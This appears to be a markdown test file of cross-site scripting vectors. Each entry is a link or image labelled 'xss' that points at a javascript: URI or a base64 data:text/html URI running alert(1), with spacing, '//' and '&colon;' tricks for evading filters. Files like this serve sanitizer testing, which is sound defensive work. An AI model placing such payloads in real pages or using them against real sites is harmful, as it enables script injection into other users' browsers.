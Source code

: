 [xss](javascript:alert(1))

[xss]( javascript:alert(1))

[xss](javascript://alert(1))

[xss](javascript&colon;alert(1))

![xss](javascript:alert(1))

![xss]( javascript:alert(1))

![xss](javascript://alert(1))

![xss](javascript&colon;alert(1))

[xss](data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==)

[xss]( data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==)

[xss](data://text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==)

![xss](data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==)

![xss]( data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==)

![xss](data://text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==)